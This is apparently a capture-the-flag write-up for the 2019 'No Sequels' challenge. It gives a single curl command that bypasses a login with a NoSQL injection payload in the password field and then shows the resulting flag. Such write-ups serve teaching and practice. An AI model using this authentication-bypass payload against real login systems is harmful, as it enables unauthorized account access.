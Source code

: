 # No Sequels
This was a basic NoSQL Injection task.
```shell
curl -i https://nosequels.2019.chall.actf.co/login \
-H 'Content-type: application/json' \
-d '{"username": "admin", "password": {"$gt": "a"}}' \
-H 'Cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJhdXRoZW50aWNhdGVkIjpmYWxzZSwiaWF0IjoxNTU1NzE4OTc5fQ.-YQh71DMt2mRIwKmgAKIB16rliriYF4dSilCsYo84-8'
```
After executing the above command we get a session cookie for the admin and when visiting the `https://nosequels.2019.chall.actf.co/site` we get the flag.
**actf{no_sql_doesn't_mean_no_vuln}**
